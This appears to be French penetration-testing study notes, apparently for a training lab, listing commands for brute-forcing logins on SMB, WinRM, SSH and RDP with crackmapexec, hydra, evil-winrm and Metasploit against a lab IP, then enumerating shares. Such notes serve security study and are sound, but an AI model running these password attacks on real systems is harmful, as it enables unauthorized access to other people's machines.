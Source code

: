 .pentest 
**

Outils basiques: 

sudo apt-get -y install crackmapexec

crackmapexec -h

crackmapexec smb -h

  

crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

crackmapexec winrm 10.129.42.197 -u user.list -p password.list

  
  

sudo gem install evil-winrm

evil-winrm -i <target-IP> -u <username> -p <password>

  

evil-winrm -i 10.129.42.197 -u user -p password

  
  

Pour SSH: 

hydra -L user.list -P password.list ssh://10.129.42.197

  
  

RDP :

hydra -L user.list -P password.list rdp://10.129.42.197

  

xfreerdp /v:<target-IP> /u:<username> /p:<password>

  

SMB : 

hydra -L user.list -P password.list smb://10.129.42.197

  

Si erreur : le service ne supporte pas les messages de retour de SMBv3. Il faut doonc utiliser Metasploit framework

msfconsole -q

user_file => user.list

pass_file => password.list

rhosts => 10.129.42.197

  

alors : 

crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
